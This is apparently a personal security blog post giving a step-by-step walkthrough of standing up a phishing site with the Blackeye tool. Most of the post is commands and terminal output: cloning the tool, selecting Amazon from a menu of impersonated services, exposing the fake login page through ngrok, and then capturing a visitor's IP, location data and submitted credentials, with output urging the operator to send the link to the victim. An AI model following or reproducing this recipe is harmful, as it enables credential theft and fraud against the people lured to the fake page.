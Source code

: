 +++
title = "Setting up a phishing site [using blackeye tool]"
date = 2024-03-11T20:03:02+02:00
draft = false
tags = ["blackeye"]
categories = ["Phishing"]
ShowToc = true
author = ["connar"]
+++

## Intro
In this post we are going to see how to make a phishing website to then use for other attacks such as the Browser-in-the-Browser attack ( see: [BitB]({{< ref "/BitB" >}} "BitB post") ).  
There are plenty of tools out there to quickly set up a phishing website. For example:  
- Socialphish
- Shell Phish
- Zphisher
- Blackeye
and plenty others, but also platforms like gophish.  
I just happened to be reading something about Blackeye tool, so we'll go with this option.

## Setup of blackeye
Its very quick and easy to set up blackeye. All you have to do is the following:
```sh
┌──(connar㉿kali)-[~/blog/black_eye_tool]
└─$ git clone https://github.com/EricksonAtHome/blackeye.git
Cloning into 'blackeye'...
remote: Enumerating objects: 305, done.
remote: Counting objects: 100% (161/161), done.
remote: Compressing objects: 100% (119/119), done.
remote: Total 305 (delta 68), reused 127 (delta 38), pack-reused 144
Receiving objects: 100% (305/305), 2.68 MiB | 1.73 MiB/s, done.
Resolving deltas: 100% (92/92), done.

┌──(connar㉿kali)-[~/blog/black_eye_tool]
└─$ cd blackeye

┌──(connar㉿kali)-[~/blog/black_eye_tool/blackeye]
└─$ ./blackeye.sh                
     :: Disclaimer: Developers assume no liability and are not    ::
     :: responsible for any misuse or damage caused by BlackEye.  ::
     :: Only use for educational purporses!!                      ::

     ::     BLACKEYE By @EricksonAtHome                           ::

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok                              
          [16] Verizon        [32] Playstation                               
                                                                                                                                                                                                                                            
 ┌─[ Choose an option:]─[~]
 └──╼ ~ 34

    1.Ngrok
    2.Localtunnel
```
To continue, we need to set Ngrok server. We can download the binary from the ngrok website. Afterwards, we need to do the following steps:
```sh
└─$ sudo tar xvzf ngrok-v3-stable-linux-amd64.tgz 
└─$ sudo mv ngrok /usr/local/bin
```
The final step is to set your auth token which can be found by making an account on the ngrok dashboard. There, you will find your auth token and then can do the last step, which is:
```sh
└─$ ngrok config add-authtoken [your_auth_token]
```

We can now switch back to blackeye and choose option 1:
```sh
─[ Choose the tunneling method:]─[~]
 └──╼ ~ 1

[*] Starting php server...
[*] Starting ngrok server...
[*] Send this link to the Victim: 
[*] Use shortened link instead: 


[*] Waiting victim open the link ...
```
To get the link, we have to run the ngrok binary we previously downloaded. The port it runs on is 5555 by default and can be found inside its code (and edited of course to listen to some other port like 8080):
```sh
└─$ ngrok http 5555

ngrok                                                                                               (Ctrl+C to quit)
                                                                                                                    
Take our ngrok in production survey! https://forms.gle/[redacted]                                           
                                                                                                                    
Session Status                online                                                                                
Account                       [redacted] (Plan: Free)                                                              
Version                       3.8.0                                                                                 
Region                        [redacted] ([redacted])                                                                           
Latency                       362ms                                                                                 
Web Interface                 http://127.0.0.1:4040                                                                 
Forwarding                    https://[redacted].ngrok-free.app -> http://localhost:5555                    
                                                                                                                    
Connections                   ttl     opn     rt1     rt5     p50     p90                                           
                              0       0       0.00    0.00    0.00    0.00
```

Now that the server is running our phishing amazon site, let's head back to blackeye:
```sh
[*] Waiting victim open the link ...

[*] IP Found!
[*] IPv6: [redacted]
[*] User-Agent:  [redacted]
[*] Country: [redacted]
[*] Region: [redacted]
[*] City: [redacted]
[*] Postal: [redacted]
[*] Location: [redacted]
[*] Maps: [redacted]
[*] ISP: [redacted]
[*] Timezone: [redacted]
[*] Saved: amazon/saved.ip.txt
 
[*] Waiting credentials ...
```

Visiting the url provided in the running ngrok instance, we are met with the following website:  
![fake amazon website](/posts/blackeye_imgs/amazon_fake.png)  

We provide some rogue credentials and we have our result:
![stolen creds](/posts/blackeye_imgs/get_credentials.png)  